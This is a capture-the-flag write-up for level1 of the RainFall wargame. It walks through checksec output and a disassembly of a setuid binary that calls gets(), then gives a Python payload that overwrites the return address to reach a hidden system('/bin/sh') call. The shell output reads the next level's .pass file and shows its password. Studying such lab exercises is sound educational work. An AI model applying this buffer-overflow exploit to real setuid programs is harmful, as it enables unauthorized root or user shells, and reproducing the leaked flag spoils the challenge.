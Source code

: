 ## Program type:
* Running the command `file ./level1` we see the file is 32-bit ELF
executable.
```
level1@RainFall:~$ file ./level1
./level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped
```
* Running the command `checksec --file ./level1`, we see that the stack is 
executable (NX disabled).

```
level1@RainFall:~$ checksec --file ./level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level1
```
## Content:
* When we examine the `main` function we see that there's a call to only one
function `gets` which fills a buffer in `main`s stack frame and that's it, 
no direct call to run.
```
08048480 <main>:
 8048480:	55                   	push   ebp
 8048481:	89 e5                	mov    ebp,esp
 8048483:	83 e4 f0             	and    esp,0xfffffff0
 8048486:	83 ec 50             	sub    esp,0x50
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave
 8048496:	c3                   	ret
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop
```
* The command `objdump -M intel -d ./level1` shows extra function `run`, it has two function calls ['fwrite', 'system'], `fwrite` prints the string "Good... Wait what?\n" and `system` calls "/bin/sh".

```
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret
```

## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

void	run()
{
	fwrite("Good... Wait what?\n", 0x13, stdout);
	system("/bin/sh");
}

int	main()
{
	char	buffer[64];

	gets(buffer);
}

```

## Solution:
* The idea is to take advantage of the function `gets` to further write on
the stack and overwrite the eip of the `main`'s stack frame, so that when
it reached the end, eip register will contain the address of the function
`run` and execute a shell with `system`.

* Now lets write the python script that will enable us to access the shell using that vulnerability:

```python
import struct

print "\x90" * 76 + struct.pack('I', 0x08048444)

```
* Running the exploit give us access to an unauthorized shell:
```
level1@RainFall:~$ (python exp.py; cat -) |  ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```